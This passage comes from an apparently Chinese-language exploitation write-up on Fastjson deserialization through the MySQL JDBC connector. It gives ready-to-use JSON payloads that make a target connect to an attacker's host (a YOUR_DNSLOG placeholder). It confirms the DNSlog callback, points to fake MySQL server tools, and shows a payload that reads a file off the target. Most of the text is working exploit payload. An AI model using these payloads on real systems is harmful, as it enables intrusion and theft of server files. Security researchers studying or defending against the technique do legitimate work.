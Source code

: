 ```
      "slaves": []
    }
  }
}
```  
## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  
python<3.8用这个  
```
https://github.com/fnmsd/MySQL_Fake_Server
```  
  
python3.8+用这个  
```
https://github.com/clown1ay/MySQL_Fake_Server
```  
  
首先进行文件读取，user指定要读取的文件  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "win_ini",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  